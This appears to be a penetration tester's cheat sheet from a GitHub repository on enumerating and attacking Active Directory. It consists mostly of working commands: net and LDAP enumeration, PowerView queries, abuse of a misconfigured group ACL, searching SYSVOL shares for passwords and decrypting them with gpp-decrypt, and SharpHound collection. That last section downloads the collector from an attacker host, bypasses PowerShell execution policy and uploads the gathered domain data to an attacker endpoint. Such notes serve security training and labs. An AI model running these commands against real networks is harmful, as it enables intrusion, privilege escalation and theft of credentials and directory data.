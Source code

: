 # Active Directory

Connection: `xfreerdp /u:someuser /p:somepass /d:somedomain.com /v:$TargetIp`

## Native enumeration

```
net user /domain
net user someuser /domain
net group /domain
net group "Some Group With Whitespaces" /domain
```

## Ldap enumeration

https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype

```
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}
```
In a shell:
```
Import-Module .\myscript.ps1
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) { $group.properties | select {$_.cn}, {$_.member} }
$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Development Depart*))"
$group.properties.member
```

## Powerview

Main functions: https://powersploit.readthedocs.io/en/latest/Recon/
- `Get-Domain` - returns the domain object for the current (or specified) domain
- `Get-DomainUser` - return all users or specific user objects in AD
- `Get-DomainGroup` - return all groups or specific group objects in AD
- `Get-DomainComputer` - returns all computers or specific computer objects in AD
- `Get-NetSession` - returns session information for the local (or a remote) machine
- `Find-LocalAdminAccess` - finds machines on the local domain where the current user has local administrator access

### Users and groups

```
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetGroup "Some Department" | select member
```

### Operating System

```
Get-NetComputer
Get-NetComputer | select operatingsystem, dnshostname
```

### Permissions and logged users

Tools:
- PowerView
- PsLoggedOn ([Sysinternals](https://learn.microsoft.com/en-us/sysinternals/)): https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon

```
Find-LocalAdminAccess # from PowerView.ps1
Get-NetSession -ComputerName somehostname
Get-NetSession -ComputerName somehostname -Verbose
Get-Acl -Path HKLM:System\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | format-list
C:\PSTools\PsLoggedon.exe \\somehostname
```
Warning: PsLoggedon.exe needs the service `Remote Registry` on the target

### Service accounts

```
cmd > setspn -L some_service
PS > Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Object permissions

```
Get-ObjectAcl -Identity someuser
Convert-SidToName S-1-5-21-domainidentifiernumber-relativeidentifier
Get-ObjectAcl -Identity "Some Departm*" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"sid1", "sid2", "sid3" | convert-sidtoname
```
Example of misconfiguration:
```
net group "Misconfigured Department" alreadyhackeduser /add /domain
Get-NetGroup "Mis*Dep*" | select member
net group "Misconfigured Department" hackeduser /del /domain # cleanup and check
Get-NetGroup "Mis*Dep*" | select member
```
Known IDs: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers \
Abuse AD ACLs: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse

### Domain shares

Password and hash searches in network shares:
```
> Find-DomainShare
> ls \\pc.domain.com\sysvol\domain.com
> ls \\pc.domain.com\sysvol\domain.com\Policies
> cat \\pc.domain.com\sysvol\domain.com\Policies\suspicious-policy-file.xml
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork\directory-with-secret-files
```
Example of password decryption:
```
kali$ gpp-decrypt "string-found-in-some-password-file"
```
Sysvol: https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx

## Automated AD enumeration

### SharpHound

In powershell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$AttackerIp/SharpHound.ps1', 'SharpHound.ps1')
powershell -ep bypass
Import-Module c:\path\to\Sharphound.ps1
# Get-Help Invoke-BloodHound
Invoke-BloodHound -CollectionMethod All -OutputDirectory c:\Users\hackeduser\Desktop -OutputPrefix "some_file_prefix"
ls c:\Users\hackeduser\Desktop
powershell (New-Object System.Net.WebClient).UploadFile('http://$AttackerIp/uploadForWindows.php', 'some_file_prefix_abc123.zip')
```

### BloodHound

```
sudo apt install neo4j
sudo apt install bloodhound
sudo neo4j start
bloodhound > upload data > more info > analysis > find shortest paths to domain admins
```

